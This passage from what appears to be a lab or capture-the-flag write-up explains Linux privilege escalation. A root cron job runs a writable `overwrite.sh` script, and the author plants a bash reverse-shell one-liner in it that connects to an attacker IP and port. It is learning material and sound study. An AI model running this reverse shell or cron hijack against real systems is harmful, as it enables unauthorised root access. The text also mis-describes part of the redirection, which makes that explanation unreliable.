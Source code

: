 so we see that `overwrite.sh` gets executed every minute

oh btw if you have trouble with reading cron job times, visit [crontab guru](https://crontab.guru)

so now, we can exploit this by writing our code in `overwrite.sh` to connect to our local machine, spawn a shell and when it gets executed by the root user, we'll get a shell

in unix systems, opening ports (or sockets? not sure), is done by accessing the protocol and port in `/dev/` like a file (it is called a file descriptor if i'm right)

so, our code would be

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1

```

**explanation:**

* 1st line: shebang to denote interpreter, this case - bash

* 2nd line: `bash -i` to open an interactive shell, `>& /dev/tcp/10.10.10.10/4444` to redirect all streams to our local machine and `0>&1` to redirect **stdin** and **stdout** to **stdout**

so, after editing the code in `overwrite.sh`, we listen on our local machine waiting for a shell

![root overwrite](/assets/thm/linuxprivesc/linuxprivesc9.png)
